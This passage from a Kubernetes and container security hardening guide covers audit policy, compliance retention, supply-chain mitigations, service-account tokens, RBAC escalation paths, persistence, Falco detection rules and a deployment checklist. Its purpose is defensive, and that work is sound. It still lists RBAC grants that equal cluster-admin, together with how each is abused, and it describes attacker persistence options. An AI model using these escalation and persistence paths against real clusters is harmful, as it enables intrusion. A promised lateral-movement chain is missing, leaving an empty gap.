# Balance between completeness (security) and volume (storage cost)
apiVersion: audit.k8s.io/v1
kind: Policy
rules:
# Log all requests to secrets and tokens at the RequestResponse level
# (includes request body AND response body — captures secret content access)
- level: RequestResponse
  resources:
  - group: ""
    resources: ["secrets", "serviceaccounts/token"]
  - group: "authentication.k8s.io"
    resources: ["tokenreviews"]

# Log all changes to RBAC at RequestResponse level
- level: RequestResponse
  resources:
  - group: "rbac.authorization.k8s.io"
    resources: ["clusterroles", "clusterrolebindings", "roles", "rolebindings"]

# Log all admission webhook changes
- level: RequestResponse
  resources:
  - group: "admissionregistration.k8s.io"
    resources: ["mutatingwebhookconfigurations", "validatingwebhookconfigurations"]

# Log exec/attach/portforward (most common lateral movement vectors)
- level: RequestResponse
  resources:
  - group: ""
    resources: ["pods/exec", "pods/attach", "pods/portforward"]

# Log pod creation/deletion at Metadata level (no body — reduces volume)
- level: Metadata
  resources:
  - group: ""
    resources: ["pods"]
  verbs: ["create", "delete", "deletecollection"]

# Log NetworkPolicy and PodSecurityPolicy changes
- level: RequestResponse
  resources:
  - group: "networking.k8s.io"
    resources: ["networkpolicies"]

# Skip high-volume, low-security-value events
- level: None
  resources:
  - group: ""
    resources: ["endpoints", "services", "nodes"]
  verbs: ["get", "list", "watch"]

- level: None
  users: ["system:kube-proxy"]
  verbs: ["get", "list", "watch"]

# Default: log everything else at Metadata level
- level: Metadata
```

Compliance frameworks impose specific retention and access control requirements:

| Framework | Log Retention | Integrity | Access Control |
|-----------|--------------|-----------|----------------|
| PCI-DSS 4.0 (Req 10) | 12 months (3 months online) | Tamper-evident (hash chain or immutable storage) | Restricted to authorized personnel |
| HIPAA (§164.312(b)) | 6 years | Audit controls; integrity mechanisms | Minimum necessary access |
| SOC 2 (CC7.2) | 90 days minimum (commonly 1 year) | Evidence of monitoring controls | Role-based access |
| FedRAMP (AC-6, AU-9) | 90 days online, 3 years archived | Cryptographic protection of audit records | Separation of duties |

Send audit logs to a write-once, isolated system (e.g., AWS CloudWatch Logs with no-delete policy, GCP Cloud Logging with Bucket Lock) that the cluster operators cannot modify. This prevents an attacker who compromises the cluster from covering their tracks by deleting audit events.

---

## 7. Emerging Threats and Advanced Mitigations

### Supply Chain Attacks and Dependency Confusion

Dependency confusion (discovered by Alex Birsan in 2021) exploits the resolution order in package managers. When an internal package name matches a public registry package, some package managers resolve the public package preferentially, downloading a potentially malicious higher-versioned package. The attack requires only publishing a package to a public registry with the same name as the target's internal package.

Mitigations, in order of effectiveness:

1. **Namespace all internal packages** with an organization-specific prefix (e.g., `@mycompany/` for npm, `mycompany-` for PyPI). Public registries enforce namespace ownership; a public package named `@mycompany/internal-lib` can only be published by the `@mycompany` organization.

2. **Configure package managers to check private registries exclusively** for internal packages, using per-scope registry configuration (`.npmrc` scope configuration, `pip.conf` index-url with `--extra-index-url` for public packages).

3. **Pin all dependency versions** to exact versions with hash verification (SHA-256 of the package archive). `package-lock.json` (npm), `poetry.lock` (Python), `go.sum` (Go), and `Cargo.lock` (Rust) all implement this. Never use version ranges (e.g., `^1.2.3`) in production build specifications.

4. **Verify package integrity** at install time using the registry's integrity metadata (`npm ci` enforces `package-lock.json` integrity; `pip install --require-hashes` enforces hash verification).

5. **Scan dependencies for known malware** (Phylum, Socket.dev, Snyk) using behavioral analysis beyond CVE matching.

### Lateral Movement and Privilege Escalation

After initial container compromise, an attacker follows a standard lateral movement chain:



The service account token at `/var/run/secrets/kubernetes.io/serviceaccount/token` is the primary lateral movement enabler. By default, Kubernetes automounts this token into every pod. If the application does not need Kubernetes API access, disable automounting:

```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: no-api-access
  namespace: production
automountServiceAccountToken: false   # cluster-wide disable for this SA
---
apiVersion: v1
kind: Pod
spec:
  automountServiceAccountToken: false  # pod-level override (belt and suspenders)
```

Privilege escalation via RBAC misconfiguration is common. The following RBAC permissions are effectively equivalent to cluster-admin if granted to an attacker:

- `pods/create` or `deployments/create` in any namespace (create a privileged pod with hostPath mount)
- `secrets/get` or `secrets/list` (read all secrets including kubeconfig secrets)
- `clusterrolebindings/create` or `rolebindings/create` with `escalate` verb (bind cluster-admin to attacker-controlled SA)
- `nodes/proxy` (proxy to the kubelet API, which allows arbitrary pod exec)
- `pods/exec` (direct shell in any pod)

Regularly audit RBAC with `kubectl auth can-i --list --as=system:serviceaccount:<namespace>:<name>` or automated tools like `rbac-police` and `KubiScan`.

### Data Exfiltration and Persistence

Persistence in a container environment is harder than in traditional systems because containers are ephemeral. An attacker has several options:

1. **Modifying the container image** in the registry (requires compromising the registry or the CI/CD pipeline—this is a supply chain attack, not a runtime persistence).
2. **Writing a DaemonSet or CronJob** to the Kubernetes API if the compromised SA has sufficient RBAC permissions.
3. **Modifying node state** (SSH keys, cron jobs, systemd units) if the container can escape to the host.
4. **Backdooring a shared volume** that is mounted by the target container.

Mitigations for persistence:

```yaml
# Enforce read-only root filesystem at the namespace level via Kyverno
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: require-readonly-rootfs
spec:
  validationFailureAction: Enforce
  rules:
  - name: readonly-rootfs
    match:
      any:
      - resources:
          kinds: [Pod]
          namespaces: [production]
    validate:
      message: "All containers must have readOnlyRootFilesystem: true"
      pattern:
        spec:
          containers:
          - securityContext:
              readOnlyRootFilesystem: true
          =(initContainers):
          - securityContext:
              readOnlyRootFilesystem: true
```

Detecting data exfiltration relies on network egress monitoring and DNS monitoring. An attacker exfiltrating data via DNS (DNS tunneling) can bypass IP-based egress policies. Tools like Cilium's DNS-aware NetworkPolicy or Istio's ServiceEntry-based egress can restrict DNS resolution to known-good domains.

---

## 8. Practical Implementation Checklist

### Development Stage

Checklist items are actionable requirements, not aspirational guidelines. Each item should have a CI/CD gate that enforces it automatically.

- Build from minimal base images: Google Distroless (`gcr.io/distroless/static-debian12`), Alpine 3.x, or Chainguard Images. Measure image size; flag regressions.
- Run as non-root UID in the Dockerfile: `USER 65532` (the nonroot UID in distroless). Never `USER root` in production Dockerfiles.
- Use multi-stage builds: build tools, compilers, and test frameworks must not appear in the final image.
- Scan for secrets before commit: `git-secrets`, `truffleHog`, or `gitleaks` as a pre-commit hook and CI check.
- Scan image for CVEs in CI: `trivy image --exit-code 1 --severity CRITICAL` blocks the pipeline on critical findings.
- Generate and attest SBOM: `syft` generates the SBOM; `cosign attest` stores it in the registry.
- Sign images with Cosign keyless signing: every image produced by CI must be signed before pushing.
- Fix-or-suppress all CRITICAL CVEs: suppression requires a documented exception with owner, justification, and expiry date.
- Use `--no-cache` in CI builds to prevent layer cache poisoning.

### Cluster Configuration

- Label all namespaces with `pod-security.kubernetes.io/enforce: restricted` by default; use `baseline` or `privileged` only with documented justification.
- Deploy OPA Gatekeeper or Kyverno for custom policy enforcement beyond PSS.
- Enable RBAC; disable `--anonymous-auth` on the API server and kubelet.
- Disable automounting of service account tokens on all service accounts; re-enable selectively.
- Apply default-deny NetworkPolicy to all namespaces; add explicit allow rules per service.
- Enable seccomp `RuntimeDefault` profile cluster-wide via PSS `restricted` or a Kyverno policy.
- Configure `EncryptionConfiguration` for secrets in etcd using a KMS provider (not static keys).
- Enable Kubernetes audit logging with the policy in Section 6; ship logs to an immutable external store.
- Configure CIS Kubernetes Benchmark compliance: use `kube-bench` to audit API server flags, kubelet configuration, and RBAC defaults.
- Disable the default service account from all namespaces (or restrict its RBAC to nothing) to prevent accidental token use.

### Runtime Monitoring

- Deploy Falco with the eBPF driver (not the kernel module driver) for better compatibility with managed Kubernetes services.
- Enable Falco rules for: shell spawning in containers, write access to `/etc/`, process execution outside expected paths, outbound connections to unexpected IPs, Kubernetes API calls from container processes, and `/proc/sysrq-trigger` or `/proc/sys/kernel/core_pattern` writes.
- Deploy Falcosidekick to route Falco alerts to Slack, PagerDuty, and the SIEM.
- Implement automated response (Section 4) for CRITICAL priority alerts: pod termination and network isolation.
- Run `kube-bench` and `kube-hunter` regularly to detect cluster configuration drift.
- Rescan all deployed images weekly using the SBOM attestations; alert on newly disclosed critical CVEs.
- Set up Kubernetes audit log alerting: alert on `pods/exec` calls, privileged pod creation, secret reads, RBAC modifications, and admission webhook changes.

### Operational Resilience

- Apply kernel security patches within 72 hours of a CVSS ≥ 9.0 CVE disclosure.
- Rotate all cluster certificates annually (or when compromised): API server, etcd, kubelet, service account signing key.
- Conduct quarterly RBAC audits: review all ClusterRoleBindings to `cluster-admin`, all Roles with `secrets/get`, and all SAs with `pods/create`.
- Conduct annual penetration testing specifically targeting container escape, lateral movement through the Kubernetes API, and supply chain injection.
- Maintain an incident response playbook with specific procedures for: container escape, compromised node, compromised CI/CD pipeline, and exposed secret.
- Test the incident response playbook with tabletop exercises every six months.
- Document the threat model for the cluster: what assets are being protected, what attackers are in scope, and what the acceptable residual risk is. Update when the architecture changes.

---

## Summary

Container security is a layered enforcement problem. The fundamental invariant—isolation is only as strong as the weakest primitive in the stack—means that every layer from the Linux kernel upward must be deliberately hardened, not assumed secure by default.

At the kernel layer, namespaces provide visibility boundaries and cgroups provide resource enforcement. Neither is sufficient alone; together they form the container isolation primitive. User namespaces are the critical mechanism for unprivileged operation: they decouple UID 0 inside the container from host-level capability. Seccomp reduces the kernel attack surface by denying syscalls that containers have no legitimate need for.

At the runtime layer, the OCI runtime spec translates security policy into kernel primitives. Runtime vulnerabilities (CVE-2019-5736) show that the runtime itself is a trust boundary that must be kept patched and run with minimal privilege. Rootless containers and gVisor/Kata Containers represent the architecturally correct solutions when the shared-kernel threat model is unacceptable.

At the orchestration layer, Kubernetes provides Pod Security Standards, RBAC, NetworkPolicy, and admission control as the policy enforcement mechanisms. None of these are on by default in a permissive way; they must be explicitly configured to `restricted`, least-privilege, and default-deny respectively. The absence of NetworkPolicy is not neutral—it is an explicit allow-all.

At the supply chain layer, Sigstore (Cosign + Rekor + Fulcio) provides cryptographic supply chain integrity without requiring organization-managed key infrastructure. SBOM generation with Syft and Grype-based attestation provides continuous vulnerability tracking against deployed workloads, not just at build time.

Runtime threat detection with eBPF (Falco, Tetragon) closes the gap that preventive controls cannot fill: zero-day vulnerabilities, misconfigurations that bypass admission control, and insider threats. Automated response (pod termination, network isolation) reduces the window of exploitation from hours to seconds.

Zero-trust architecture—no implicit trust based on network location, all requests authenticated and authorized—provides the strongest composable posture. It is not a product but a design principle applied at every layer: SPIFFE/SPIRE for workload identity, mTLS for transport, RBAC for authorization, and external KMS for secret management.
